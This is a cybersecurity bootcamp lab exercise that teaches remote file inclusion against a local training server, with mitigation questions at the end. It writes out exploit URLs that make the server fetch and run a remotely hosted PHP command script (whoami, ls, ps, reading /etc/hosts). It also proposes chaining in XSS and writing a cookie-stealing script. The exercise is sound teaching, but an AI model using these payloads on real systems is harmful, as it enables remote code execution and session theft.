

## Activity File: Remote File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed there is another back-end component vulnerability, **local file inclusion**.

- Your manager is now concerned that the website is also vulnerable to **remote file inclusion** and would like you to now test for this vulnerability.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup 

- Access Vagrant and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Inclusion** option from the menu on the left side of the page.

    - Note that this is the same page where the directory traversal activity was done.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/fi/>.
  
-  The page should look like the following image:

    

- **Note**: If you have any issues accessing this webpage, you might need to repeat the Activity Setup steps from this previous activity: [GitHub: SQL Injection](https://github.com/coding-boot-camp/cybersecurity-v2/blob/15.1_V2_Update/1-Lesson-Plans/15-Web-Vulnerabilities-and-Hardening/1/Activities/06_SQL_Injection/Unsolved/README.md).

## Instructions

The webpage you have revisited represents a page within Replicants website designed to display files within Replicants webserver. You previously determined this page has a directory traversal vulnerability. Complete the steps below to determine if this same webpage is also vulnerable to a **Remote File Inclusion** Vulnerability

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows refrencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in Vagrant, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file
    
4. **Bonus**: Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that contains XSS payloads we developed previously.

        - ``

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the popup!

5. **Super Bonus**: Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint**: Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        ``

    - **Hint**: To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
